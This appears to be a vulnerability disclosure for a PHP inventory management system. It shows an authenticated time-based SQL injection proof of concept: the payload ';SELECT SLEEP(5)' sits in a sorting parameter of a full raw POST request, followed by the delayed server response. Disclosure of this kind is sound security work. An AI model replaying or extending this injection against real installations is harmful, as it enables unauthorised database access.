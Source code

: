 ﻿
**Exploit Title:** Free and Open Source inventory management system php - Authenticated SQL Injection
**Date**: 4/08/2023
**Exploit Author:** y3thu
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
**Attack Vector:** WEB, Network
**Testeted on:** Windows 10  using XAMPP

**POST Authenticated SQL Injection**
**POC**
**payload:** `;SELECT SLEEP(5)`


    POST /ample/app/ajax/catagory_data.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 983
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=category
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    draw=1&columns%5B0%5D%5Bdata%5D=id&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=true&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=name&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=true&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=description&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=true&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=action&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=true&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&order%5B0%5D%5Bcolumn%5D=0&order%5B0%5D%5Bdir%5D=asc;SELECT SLEEP(5)&start=0&length=10&search%5Bvalue%5D=&search%5Bregex%5D=false

**Response after 5 seconds (the sleep has been executed)**

     
    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 06:49:50 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 2174
    Connection: close
    Content-Type: text/html; charset=UTF-8



https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/36e9e20b-1bfe-4031-87a9-7d45dfba2e77

